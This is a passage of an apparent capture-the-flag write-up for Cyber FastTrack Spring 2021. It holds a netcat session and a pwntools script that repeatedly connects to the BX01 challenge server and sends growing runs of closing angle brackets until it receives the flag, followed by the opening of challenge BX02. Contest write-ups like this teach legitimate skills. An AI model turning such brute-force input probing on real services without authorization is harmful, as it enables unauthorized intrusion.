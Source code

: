 When we connect to the remote host, we get this:

```bash
$ nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
```

The exception is telling us that there is an open `<` without a matching `>`. We can solve this level by brute forcing closing brackets until we retrieve the flag.

```python
#!/usr/bin/env python3
from pwn import *


context.log_level = 'warning'
def connect(host, port):
    conn = remote(host, port)
    conn.recvuntil(b'angle brackets not terminated.\n')
    return conn

def terminatebrackets():
    i  = 1
    while True:
        r = connect(host, port)
        r.sendline(b'>' * i)
        if (data:=r.recvall()) and b"Error:" not in data:
            return data
        i += 1


if __name__ == '__main__':
    host = 'cfta-bx01.allyourbases.co'
    port = 8012
    response = terminatebrackets()
    print(response.decode())
```

[*Back to top*](#cyber-fasttrack-spring-2021)

---

## BX02

![Points: 1000](https://img.shields.io/badge/Points-1000-blue)

**Challenge Category**

![Binary](https://img.shields.io/badge/Binary-darkred)

**Challenge Description**

```
Access the network service at url: cfta-bx02.allyourbases.co port: 8013 and find a way to get the flag.
```
